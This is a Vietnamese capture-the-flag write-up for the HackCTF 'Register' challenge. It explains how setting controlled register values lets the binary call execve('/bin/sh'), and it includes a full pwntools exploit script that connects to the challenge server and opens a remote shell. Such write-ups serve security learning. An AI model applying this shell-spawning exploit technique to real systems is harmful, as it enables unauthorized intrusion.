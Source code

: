 # Register
### Cre: Pyo Tutor

Hàm main sẽ setup Alarm(5) trước thi thực hiện function chính là Build() để thực thi.
![Đây là hàm Main](https://github.com/zirami/HackCTF/blob/main/register/image/main_func.png)
* build func

Chương trình sử dụng signal(14, handler); kèm theo alarm(5-seconds).
Sau đó, nhận các input cho các register của chương trình.
Vậy chỉ cần truyền các tham số hợp lí, thì có thể gọi shell.

# Solution

Có 2 công việc cần làm để gọi shell
* Tạo 1 nơi chứa chuỗi `/bin/sh`
* Truyền tham số cho RDI = addr("/bin/sh"), RAX = 59,... Đợi 5s.

## Getshell



## File Exploit
```py
from pwn import * 
# s = process("./register")
s = remote('ctf.j0n9hyun.xyz', 3026)
# raw_input("debug")

binsh = "/bin/sh\x00"
#BSS_ADDR = 0x601100 = 6295808 
s.sendlineafter("RAX: ","0")
s.sendlineafter("RDI: ","0")
s.sendlineafter("RSI: ","6295808")
s.sendlineafter("RDX: ","8")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

s.send(binsh)


s.sendlineafter("RAX: ","59")
s.sendlineafter("RDI: ","6295808")
s.sendlineafter("RSI: ","0")
s.sendlineafter("RDX: ","0")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

sleep(4)

s.interactive()
```